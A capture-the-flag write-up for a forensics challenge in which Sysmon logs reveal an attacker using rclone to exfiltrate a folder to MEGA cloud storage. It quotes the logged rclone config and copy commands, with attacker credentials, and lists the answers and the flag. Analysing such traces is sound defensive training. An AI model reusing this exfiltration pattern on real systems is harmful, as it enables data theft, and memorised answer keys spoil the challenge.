 # forensics/Packet Cyclone

### Description
> Pandora's friend and partner, Wade, is the one that leads the investigation into the relic's location. Recently, he noticed some weird traffic coming from his host. That led him to believe that his host was compromised. After a quick investigation, his fear was confirmed. Pandora tries now to see if the attacker caused the suspicious traffic during the exfiltration phase. Pandora believes that the malicious actor used rclone to exfiltrate Wade's research to the cloud. Using the tool called "chainsaw" and the sigma rules provided, can you detect the usage of rclone from the event logs produced by Sysmon? To get the flag, you need to start and connect to the docker service and answer all the questions correctly.

We have a folder with sigma rules for malware and a folder with Windows logs (.evtx)

I used this tool to read Windows logs(sigma rules didn't work for me):
https://github.com/omerbenamram/evtx

In file `Microsoft-Windows-Sysmon%4Operational.evtx` in record 76 we can find answers for questions 1-4:

```
<Data Name="CommandLine">"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI</Data>
```

1.What is the email of the attacker used for the exfiltration process? (for example: name@email.com)
majmeret@protonmail.com

2.What is the password of the attacker used for the exfiltration process? (for example: password123)
FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI

3.What is the Cloud storage provider used by the attacker? (for example: cloud)
mega

4.What is the ID of the process used by the attackers to configure their tool? (for example: 1337)
3820

In the same file in record 78 we can find answers for questions 5-6:
```
<Data Name="CommandLine">"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v</Data>
```

5.What is the name of the folder the attacker exfiltrated; provide the full path. (for example: C:\Users\user\folder)
C:\Users\Wade\Desktop\Relic_location

6.What is the name of the folder the attacker exfiltrated the files to? (for example: exfil_folder)
exfiltration

*HTB{3v3n_3xtr4t3rr3str14l_B31nGs_us3_Rcl0n3_n0w4d4ys}*

